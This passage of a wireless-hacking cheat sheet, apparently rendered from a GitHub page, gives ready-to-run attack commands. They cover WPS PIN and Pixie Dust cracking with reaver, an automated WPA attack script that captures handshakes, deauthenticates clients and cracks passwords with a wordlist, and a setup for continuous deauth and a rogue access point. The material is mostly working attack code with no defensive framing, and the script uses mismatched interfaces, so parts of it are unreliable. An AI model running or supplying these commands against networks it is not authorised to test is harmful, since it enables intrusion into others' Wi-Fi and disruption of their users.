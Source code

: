 **WPS Attacks:**
```bash
# Scan WPS
wash -i wlan0mon

# PIN attack
reaver -i wlan0mon -b AP_MAC -vv

# Pixie dust
reaver -i wlan0mon -b AP_MAC -vv -K 1
```

#### Network Connections
```bash
# WPA connection
wpa_passphrase "SSID" "password" > config.conf
wpa_supplicant -i wlan0 -c config.conf -B
dhclient wlan0

# Open network
iwconfig wlan0 essid "OpenNet"
dhclient wlan0
```

### Advanced Command Combinations

#### Automated Attack Scripts
```bash
#!/bin/bash
# WPA attack automation example
TARGET_MAC="AA:BB:CC:DD:EE:FF"
CHANNEL="6"
WORDLIST="/usr/share/wordlists/rockyou.txt"

# Start monitoring
airodump-ng --bssid $TARGET_MAC -c $CHANNEL -w attack wlan0mon &
DUMP_PID=$!

# Wait for handshake capture
sleep 60

# Deauth attack
aireplay-ng -0 5 -a $TARGET_MAC wlan1mon

# Stop monitoring
kill $DUMP_PID

# Crack password
aircrack-ng -w $WORDLIST attack.cap
```

#### Multi-Interface Operations
```bash
# Interface 1: Monitoring
airodump-ng --bssid TARGET -c 6 -w capture wlan0mon &

# Interface 2: Attacking  
aireplay-ng -0 0 -a TARGET wlan1mon &

# Interface 3: Rogue AP
hostapd rogue_ap.conf
```

---